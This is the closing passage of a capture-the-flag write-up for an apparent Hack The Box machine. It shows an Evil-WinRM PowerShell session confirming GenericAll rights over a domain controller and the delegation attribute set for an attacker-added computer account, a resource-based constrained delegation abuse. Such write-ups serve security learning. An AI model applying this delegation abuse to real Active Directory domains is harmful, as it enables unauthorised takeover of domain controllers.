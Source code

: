 ```powershell
AuditFlags            : None
```

This would have told us we have GenericAll control over the DC. Which we abuse to set ActOnBehalf rights to a newly added machine/computer:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $x = Get-ADComputer dc -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
*Evil-WinRM* PS C:\Users\support\Documents> $x.'msDS-AllowedToActOnBehalfOfOtherIdentity'.Access

ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : SUPPORT\pencer$
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

Of course it's more fun playing with Bloodhound :)

That's another box done. See you next time.
